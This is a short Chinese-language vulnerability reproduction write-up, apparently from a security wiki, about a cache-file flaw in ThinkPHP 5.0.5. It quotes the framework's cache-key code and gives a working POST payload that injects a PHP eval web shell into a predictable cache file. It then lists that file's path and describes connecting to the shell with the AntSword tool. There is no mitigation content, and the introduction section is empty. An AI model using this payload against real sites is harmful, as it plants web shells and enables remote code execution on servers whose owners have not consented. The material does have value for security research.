 Thinkphp 5.0.5 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 5.0.5

三、复现过程
------------

### 漏洞分析

-   漏洞代码与3.2.3差不多，不一样的在缓存目录

```{=html}
<!-- -->
```
-   protected function getCacheKey($name)
            {
                $name = md5($name);
                if ($this->options['cache_subdir']) {
                    // 使用子目录
                    $name = substr($name, 0, 2) . DS . substr($name, 2);
                }
                if ($this->options['prefix']) {
                    $name = $this->options['prefix'] . DS . $name;
                }
                $filename = $this->options['path'] . $name . '.php';
                $dir      = dirname($filename);
                if (!is_dir($dir)) {
                    mkdir($dir, 0755, true);
                }
                return $filename;
            }

```{=html}
<!-- -->
```
-   在index控制器写如下代码：

![](./.resource/Thinkphp5.0.5缓存漏洞/media/rId25.png)

-   之后访问
    `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
-   最终在
    `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：

![](./.resource/Thinkphp5.0.5缓存漏洞/media/rId26.png)

之后访问蚁剑
`http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![](./.resource/Thinkphp5.0.5缓存漏洞/media/rId27.png)

### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

-   `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
